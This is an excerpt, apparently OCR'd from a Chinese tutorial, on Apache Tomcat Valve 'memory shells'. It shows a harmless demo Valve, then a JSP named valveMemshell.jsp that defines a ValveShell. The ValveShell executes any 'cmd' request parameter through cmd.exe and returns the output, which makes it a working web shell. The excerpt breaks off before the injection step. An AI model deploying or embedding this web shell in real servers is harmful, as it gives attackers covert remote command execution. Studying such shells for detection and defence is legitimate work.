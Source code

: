 ```bash
package org.example.valve;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.valves.ValveBase;

import javax.servlet.ServletException;
import java.io.IOException;

public class HelloValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        System.out.println("yes");
    }
}
```

Tomcat 中的 server.xml 配置：

```bash
<Valve className="org.example.valve.HelloValve" />
```

### 7.3 Valve 内存马

valveMemshell.jsp:

```bash
<%--
  Created by IntelliJ IDEA.
  User: Dili
  Date: 2023/9/22
  Time: 23:12
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>

<%!
    public class ValveShell extends ValveBase {
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            if(request.getParameter("cmd") != null) {
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/C", request.getParameter("cmd")}).getInputStream();
                    Scanner scanner = new Scanner(in).useDelimiter("\\A");
                    String out = scanner.hasNext()?scanner.next():"";
                    response.getWriter().write(out);
                } catch (Exception e) {}
            }
        }
    }
%>

```